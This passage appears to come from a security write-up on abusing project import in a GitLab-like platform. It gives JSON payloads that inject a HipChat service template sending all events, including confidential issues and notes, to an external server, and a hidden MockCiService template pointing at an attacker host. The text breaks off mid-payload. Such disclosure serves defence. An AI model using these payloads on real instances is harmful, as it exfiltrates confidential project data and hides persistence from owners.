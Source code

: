 **Exfiltrating (confidential) issues, merge requests, pipelines, etc.**
The HipChat service, similar to Slack, is a service that responds to all events a project can trigger. Creating a template for this service will automatically send all new issues, notes, merge requests, pipeline updates, and pushes to a HipChat server. Below is the JSON object to inject a HipChat service template.

```json
{
  "id": 41858507,
  "title": "HipChat",
  "project_id": 9465078,
  "created_at": "2018-11-18T01:22:06.990Z",
  "updated_at": "2018-11-18T01:22:06.990Z",
  "active": true,
  "properties": {
    "token": "some_token",
    "room": "room",
    "server": "",
    "color": "red",
    "api_version": ""
  },
  "template": true,
  "push_events": true,
  "issues_events": true,
  "merge_requests_events": true,
  "tag_push_events": true,
  "note_events": true,
  "category": "common",
  "default": false,
  "wiki_page_events": true,
  "pipeline_events": true,
  "confidential_issues_events": true,
  "commit_events": true,
  "job_events": true,
  "confidential_note_events": true,
  "type": "HipchatService"
}
```

**Hidden services**
An attacker can leverage the `MockCiService` to inject a service that is not visible in the UI. The only mock service that interacts with an actual service is the `MockCiService`. The other two, `MockDeploymentService` and `MockMonitoringService`, do not interact with an external URL.

```json
{
  "id": 41858507,
  "title": "MockCI",
  "project_id": 9465078,
  "created_at": "2018-11-18T01:22:06.990Z",
  "updated_at": "2018-11-18T01:22:06.990Z",
  "active": true,
  "properties": {
    "mock_service_url": "https://attacker_host/",
    "multiproject_enabled": "1",
    "pass_unstable": "0"
  },
  "template": true,
  "push_events": true,
  "issues_events": true,
  "merge_requests_events": true,
  "tag_push_events": true,
  "note_events": true,
  "category": "ci",
  "default": false,
```